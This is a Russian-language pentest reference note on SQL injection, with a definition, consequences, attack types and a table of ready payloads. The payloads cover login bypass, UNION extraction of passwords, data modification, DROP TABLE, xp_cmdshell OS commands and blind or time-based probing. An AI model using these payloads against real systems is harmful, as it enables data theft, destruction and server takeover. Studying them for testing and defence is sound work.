 #Пентест #Веб
**_SQL-инъекция (SQLi)_** - позволяет вмешиваться в запросы, которые приложение делает к своей базе данных. Это позволяет просматривать данные, которые обычно не возможно получить. Во многих случаях злоумышленник может изменять или удалять эти данные, вызывая постоянные изменения в содержимом или поведении приложения.

Работает совместно с [[curl]]

## Последствия атак
- Несанкционированный доступ к данным.
- Постоянный черный ход в системы организации, что приводит к долгосрочной угрозе, которая может оставаться незамеченной в течение длительного периода времени;
- Скомпрометировать базовый сервер или другую внутреннюю инфраструктуру;
- Осуществить атаку типа "отказ в обслуживании".

## Примеры SQL-инъекций
- Получение скрытых данных, когда вы можете изменить SQL-запрос, чтобы вернуть дополнительные результаты.
- Подрыв логики приложения, когда можно изменить запрос, чтобы вмешаться в логику приложения.
- Атаки UNION, когда можно получить данные из разных таблиц базы данных.
- Изучение базы данных, когда можно получить информацию о версии и структуре базы данных.
- Слепая SQL-инъекция, когда результаты контролируемого вами запроса не возвращаются в ответах приложения.

## Команды

| **Тип инъекции**          | **Пример**                                                                              | **Описание**                                                                       |
| ------------------------- | --------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- |
| **Обход аутентификации**  | `' OR '1'='1`                                                                           | Возвращает все строки, так как условие `'1'='1'` всегда истинно.                   |
|                           | `admin' --`                                                                             | Закомментирует оставшуюся часть запроса, обходя проверку пароля.                   |
|                           | `' OR 'a'='a'; --`                                                                      | Аналогично первой инъекции, но с использованием комментария.                       |
| **Извлечение данных**     | `' UNION SELECT null, username, password FROM users --`                                 | Добавляет данные из таблицы `users` к результату запроса.                          |
|                           | `' UNION SELECT null, table_name, null FROM information_schema.tables --`               | Извлекает имена таблиц из базы данных.                                             |
|                           | `' UNION SELECT null, column_name, null FROM information_schema.columns --`             | Извлекает имена столбцов из базы данных.                                           |
| **Изменение данных**      | `'; UPDATE users SET password = 'hacked' WHERE username = 'admin' --`                   | Изменяет пароль пользователя `admin` на `hacked`.                                  |
|                           | `'; INSERT INTO users (username, password) VALUES ('hacker', '123') --`                 | Добавляет нового пользователя `hacker` с паролем `123`.                            |
| **Удаление данных**       | `'; DROP TABLE users --`                                                                | Удаляет таблицу `users`.                                                           |
|                           | `'; DELETE FROM users WHERE username = 'admin' --`                                      | Удаляет пользователя `admin` из таблицы `users`.                                   |
| **Выполнение команд ОС**  | `'; EXEC xp_cmdshell('dir C:\') --`                                                     | Выполняет команду `dir C:\` на сервере (если функция `xp_cmdshell` включена).      |
|                           | `'; EXEC xp_cmdshell('net user hacker /add') --`                                        | Добавляет нового пользователя `hacker` на сервере.                                 |
| **Слепая SQL-инъекция**   | `' AND (SELECT COUNT(*) FROM users) > 0 --`                                             | Проверяет, существует ли таблица `users`.                                          |
|                           | `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'admin') = 'a' --` | Проверяет, равен ли первый символ пароля пользователя `admin` букве `a`.           |
| **Использование времени** | `' AND IF(1=1, SLEEP(5), 0) --`                                                         | Если условие истинно, сервер "засыпает" на 5 секунд (полезно для слепых инъекций). |
|                           | `' AND IF(1=2, SLEEP(5), 0) --`                                                         | Если условие ложно, сервер не "засыпает".                                          |